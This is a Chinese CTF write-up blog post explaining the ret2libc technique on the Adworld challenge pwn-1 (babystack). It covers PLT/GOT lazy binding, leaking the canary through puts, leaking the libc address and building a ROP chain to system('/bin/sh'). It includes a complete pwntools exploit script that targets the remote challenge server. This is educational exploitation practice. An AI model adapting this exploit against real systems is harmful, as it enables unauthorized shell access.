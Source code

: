 ```yaml
---
layout: post
title: "ret2libc与pwn1"
date: 2024-3-17
tags: [pwn]
comments: true
author: gbeefee
---
```


​	ret2libc，终于还是要搞明白了，继续栈的学习理论知识😌，下周就去学堆。

#### 0x0 

​	不同于ret2text，在程序中通常可以找的明显的system()或“/bin/sh”，没有的东西就只能靠手搓了。ret2libc的目标就是在程序中泄露出某一函数（通常是puts和write）的真实地址，根据这个地址获取对于版本的libc，在libc里就存在需要的sysem()和“/bin/sh"，再通过ROP，把它们拼成最后的栈溢出payload，获取shell的控制权。

#### 0x1

​	要泄露一个函数的真实地址，就不得不提到plt表和got表以及延迟绑定机制了。got表也叫全局偏移表，是Linux ELF文件中用于定位全局变量和函数的一个表。plt表也叫过程链接表，是用来存储外部函数在内存的确切地址，即函数第一次被调用的时候才进行绑定。在Linux系统中，为了节约程序运行的空间，函数只有在第一次执行后，才会完成got表和plt表的绑定。也就是说，在第二次调用后，got表才可以直接调用函数。

#### 0x2

例题：攻防世界pwn-1

![checksec]()

没有pie保护

![main](https://github.com/gbeefee/imghome/blob/d06adada018f27833ce7abfd67a222cafc80a53c/main.png)

![menu](https://github.com/gbeefee/imghome/blob/d06adada018f27833ce7abfd67a222cafc80a53c/menu.png)

不存在后门，有很明显的溢出点，但是有canary保护，需要先泄露canary。

canary的最后一位是\x00，但是puts函数读取到\x00就会自动停止，第一次输入b'a'*0x80\n，最后一个字节正好把\x00覆盖，puts函数就会连带把canary一起打印，之后再把\x00补上，就成功泄露了canary。

`io.sendlineafter(">>",'1')`

`io.sendline(b'a'*0x88)`

`io.sendlineafter(">>",'2')`

`io.recvuntil('a\n')`

`canary = u64(io.recv(7).rjust(8,b'\x00'))`

泄露puts的真实地址，这里需要使用ROPgadget获取pop_rdi。

`payload1 = b'A'*0x88 + p64(canary) + p64(0)+ p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr)`

`io.sendlineafter(">> ",'1')`

`io.sendline(payload1)`

`io.sendlineafter(">> ",'3')`

`puts_addr = u64(io.recv(6).ljust(8,b'\x00'))`

`print(hex(puts_addr))`

最后通过偏移计算出system和binsh的地址

`libc = LibcSearcher('puts', puts_addr)`

`libc_base = puts_addr - libc.dump('puts')`

`system = libc_base + libc.dump('system')`

`binsh = libc_base + libc.dump('str_bin_sh')`

`io.sendlineafter('>> ','1')`

`payload2 ='a'*0x88 + p64(canary) +p64(0)+ p64(pop_rdi) + p64(binsh) + p64(system)`

`io.send(payload2)`

`io.sendlineafter('>> ','3')`

`io.interactive()`

结果如图

![result](https://github.com/gbeefee/imghome/blob/d06adada018f27833ce7abfd67a222cafc80a53c/result.png)

完整exp：

`from pwn import *`

`from LibcSearcher import *`

`context(os="linux", arch="amd64", log_level="debug")`

`elf = ELF("./babystack")`

`io=remote("61.147.171.105", 57778)`

`\#io=process("./babystack")`

`main_addr=0x0400908`

`pop_rdi = 0x0400a93`

`puts_got = elf.got['puts']`

`puts_plt = elf.plt['puts']`

`io.sendlineafter(">>",'1')`

`io.sendline(b'a'*0x88)`

`io.sendlineafter(">>",'2')`

`io.recvuntil('a\n')`

`canary = u64(io.recv(7).rjust(8,b'\x00'))`

`payload2 = b'A'*0x88 + p64(canary) + p64(0)+ p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr)`

`io.sendlineafter(">> ",'1')`

`io.sendline(payload2)`

`io.sendlineafter(">> ",'3')`

`puts_addr = u64(io.recv(6).ljust(8,b'\x00'))`

`libc = LibcSearcher('puts', puts_addr)`

`libc_base = puts_addr - libc.dump('puts')`

`system = libc_base + libc.dump('system')`

`binsh = libc_base + libc.dump('str_bin_sh')`

`io.sendlineafter('>> ','1')`

`payload2 ='a'*0x88 + p64(canary) +p64(0)+ p64(pop_rdi) + p64(binsh) + p64(system)`

`io.send(payload2)`

`io.sendlineafter('>> ','3')`

`io.interactive()`

